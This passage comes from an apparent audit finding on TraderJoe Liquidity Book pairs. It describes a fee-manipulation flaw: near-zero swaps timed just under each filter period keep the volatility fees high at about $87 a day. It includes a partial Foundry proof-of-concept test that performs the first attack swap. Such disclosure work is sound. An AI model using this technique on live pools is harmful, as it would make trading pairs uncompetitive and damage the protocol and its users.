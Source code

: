             _fp.time = (block.timestamp).safe40();

            updateVolatilityAccumulated(_fp, _activeId);
        }

The critical issue is that when the time since last swap is below filterPeriod, Vr does not change, yet the last swap timestamp (\_fp.time) is updated. Therefore, attacker (TJ competitor) can keep fees extremely high at basically 0 cost, by swapping just under every Tf seconds, a zero-ish amount. Since Vr will forever stay the same, the calculated Va will stay high (at least Vr) and will make the protocol completely uncompetitive around the clock.

The total daily cost to the attacker would be  (TX fee (around `$0.05` on AVAX)  + swap fee (&tilde;0) ) &ast; filterPeriodsInDay (default value is 1728) = `$87`.

### Impact

Attacker can make any TraderJoe pair uncompetitive at negligible cost.

### Proof of Concept

Add this test in LBPair.Fees.t.sol:

    function testAbuseHighFeesAttack() public {
            uint256 amountY = 30e18;
            uint256 id;
            uint256 reserveX;
            uint256 reserveY;
            uint256 amountXInForSwap;
            uint256 amountYInLiquidity = 100e18;
            FeeHelper.FeeParameters memory feeParams;

            addLiquidity(amountYInLiquidity, ID_ONE, 2501, 0);

            //swap X -> Y and accrue X fees
            (amountXInForSwap,) = router.getSwapIn(pair, amountY, true);

            (reserveX,reserveY,id ) = pair.getReservesAndId();
            feeParams = pair.feeParameters();
            console.log("indexRef - start" , feeParams.indexRef);
            console.log("volatilityReference - start" , feeParams.volatilityReference);
            console.log("volatilityAccumulated - start" , feeParams.volatilityAccumulated);
            console.log("active ID - start" , id);
            console.log("reserveX - start" , reserveX);
            console.log("reserveY - start" , reserveY);

            // ATTACK step 1 - Cross many bins / wait for high volatility period
            token6D.mint(address(pair), amountXInForSwap);
            vm.prank(ALICE);
            pair.swap(true, DEV);

            (reserveX,reserveY,id ) = pair.getReservesAndId();
            feeParams = pair.feeParameters();
            console.log("indexRef - swap1" , feeParams.indexRef);
            console.log("volatilityReference - swap1" , feeParams.volatilityReference);
            console.log("volatilityAccumulated - swap1" , feeParams.volatilityAccumulated);
            console.log("active ID - swap1" , id);
            console.log("reserveX - swap1" , reserveX);
            console.log("reserveY - swap1" , reserveY);
